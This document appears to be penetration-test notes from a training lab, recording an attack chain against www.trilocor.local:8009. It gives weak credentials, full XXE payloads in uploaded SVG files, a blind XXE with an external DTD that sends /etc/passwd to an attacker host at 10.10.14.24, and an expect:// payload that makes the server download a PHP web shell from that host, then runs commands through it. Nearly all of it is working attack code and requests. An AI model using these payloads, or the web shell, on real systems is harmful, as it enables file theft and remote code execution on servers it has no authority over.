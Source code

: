 # www.trilocor.local:8009

---

Weak credentials

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image.png)

```bash
pr-martins:martins
```

---

XXE via File Upload

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "http://10.10.14.24:10000"> ]>
<svg width="200" height="200">&xxe;</svg>
```

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: www.trilocor.local:8009' -H $'Content-Length: 347' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://www.trilocor.local:8009' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJlh0cpFl6SxkO1sU' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://www.trilocor.local:8009/admin/settings?error=Only+images+are+supported%21+Max+dimensions+are+250x250.' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=45qoj1p5u5fn9nhigpnn5rd4fl' \
    --data-binary $'------WebKitFormBoundaryJlh0cpFl6SxkO1sU\x0d\x0aContent-Disposition: form-data; name=\"uploadFile\"; filename=\"svgevilblind.svg\"\x0d\x0aContent-Type: image/svg+xml\x0d\x0a\x0d\x0a<?xml version=\"1.0\" encoding=\"UTF-8\"?>\x0a<!DOCTYPE svg [ <!ENTITY xxe SYSTEM \"http://10.10.14.24:10000\"> ]>\x0a<svg width=\"200\" height=\"200\">&xxe;</svg>\x0a\x0d\x0a------WebKitFormBoundaryJlh0cpFl6SxkO1sU--\x0d\x0a' \
    $'http://www.trilocor.local:8009/admin/upload'
```

```bash
POST /admin/upload HTTP/1.1
Host: www.trilocor.local:8009
Content-Length: 347
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.trilocor.local:8009
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJlh0cpFl6SxkO1sU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:8009/admin/settings?error=Only+images+are+supported%21+Max+dimensions+are+250x250.
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=45qoj1p5u5fn9nhigpnn5rd4fl
Connection: close

------WebKitFormBoundaryJlh0cpFl6SxkO1sU
Content-Disposition: form-data; name="uploadFile"; filename="svgevilblind.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "http://10.10.14.24:10000"> ]>
<svg width="200" height="200">&xxe;</svg>

------WebKitFormBoundaryJlh0cpFl6SxkO1sU--
```

---

CRITICAL: Blind XXE

```bash
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.24:8000/xxe.dtd">
  %remote;
  %oob;
]>
<svg xmlns="http://www.w3.org/2000/svg" version="1.0" width="200" height="200">
<text x="100" y="30" fill="red">&content;</text>
<circle cx="100" cy="100" r="95" fill="#555555" />
</svg>
```

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.24:8000/?content=%file;'>">
```

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%201.png)

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%202.png)

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%203.png)

---

Webroot recon

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%204.png)

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%205.png)

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%206.png)

---

Keys leak

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%207.png)

---

CRITICAL: Misconfiguration — enabled expect://

```bash
<?php system($_REQUEST["cmd"]);?>
```

```bash
sudo python3 -m http.server 80
```

```bash
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE email [ 
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'10.10.14.24/shell.php'">
]>
<svg xmlns="http://www.w3.org/2000/svg" version="1.0" width="200" height="200">
<text x="100" y="30" fill="red">&company;</text>
<circle cx="100" cy="100" r="95" fill="#555555" />
</svg>
```

```bash
curl --url "http://www.trilocor.local:8009/uploads/shell.php?cmd=id"
```

![image.png](www%20trilocor%20local%208009%201d2021737a8980d68abbe5095ee54842/image%208.png)